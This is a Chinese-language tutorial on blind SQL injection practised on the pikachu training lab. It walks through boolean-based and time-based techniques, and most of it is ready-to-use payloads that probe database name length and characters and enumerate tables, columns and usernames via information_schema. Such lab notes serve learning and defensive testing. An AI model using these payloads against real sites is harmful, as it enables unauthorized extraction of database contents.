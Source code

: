 # 盲注

---

（本案例使用pikachu靶场）

盲注分为 布尔注入 和 延迟注入 



## 布尔注入 （base on boolian）

根据页面返回的是否正常来判断查询语句是否正确

1.判断注入点（使用kobe'  or 1=1# 去测试发现是不行的均不存在用户）------------------------------

```
kobe' and 1=1#    #显示kobe用户信息

kobe' and 1=2#    #用户不存在
```



2.判断语句（长度和每个字符串）------------------------------------------------------------

```
kobe' and length(database())>8#    #回显错误，用户不存在，代表当前库名长度小于8

kobe' and length(database())=7#    #回显正确返回kobe用户信息，代表当前库名长度为7
```



只能用判断法进行爆破 （substr(str,pop,len)从str里面截取字符串， 从pop位开始，len截取长度）

```
kobe’ and ascii(substr(database(),1,1))>113#  #回显错误，用户不存在

kobe’ and ascii(substr(database(),1,1))=112#  #回显正确返回kobe用户信息
```



3.数据库表、字段、数据信息（先爆破表名长度，再爆破每个字符串）------------------------------

```
kobe' and length(注入语句)=7#    #爆破表名长度

kobe' and ascii(substr(注入语句,1,1))=113#   #爆破表名的每个字的ascii码
```



注入语句如下：

```
(select table_name from information_schema.tables where table_schema=database() limit 0,1)  #取从0开始1个表名，改0则换表

(select column_name from information_schema.columns where table_name = 'users' limit 0,1) # 查询users表中从0开始1个字段，改0则换字段

(select username from users limit 0,1) #查询user表中username字段从0开始1个数据，改0则换数据
```







## 延时注入 （base on time）

根据页面返回时间来判断是否实现查询来判断是否存在注入

1.判断注入点（使用F12调试工具查看响应时间）--------------------------

```
kobe' and sleep(10)#
```

2.判断语句------------------------------------------------------------

根据响应时间来判断从字符长度

```
kobe' and if(length(database())='字母',sleep(5),1)#
```



根据响应时间来确定每个字符串（可以调高点延时）

```
kobe' and if(substr(database(),1,1)='字母',sleep(5),1)#       

kobe' and if(substr(database(),2,1)='字母',sleep(5),1)# 
```



3.数据库表、字段、数据信息（先爆破表名长度，再爆破每个字符串）------------------------------

```
kobe' and if(length(注入语句)='字母',sleep(5),1)#

kobe' and if(substr(注入语句,1,1)='字母',sleep(5),1)# 
```



注入语句如下：

```
(select table_name from information_schema.tables where table_schema=database() limit 0,1)  #取从0开始1个表名，改0则换表

(select column_name from information_schema.columns where table_name = 'users' limit 0,1) # 查询users表中从0开始1个字段，改0则换字段

(select username from users limit 0,1) #查询user表中username字段从0开始1个数据，改0则换数据 
```

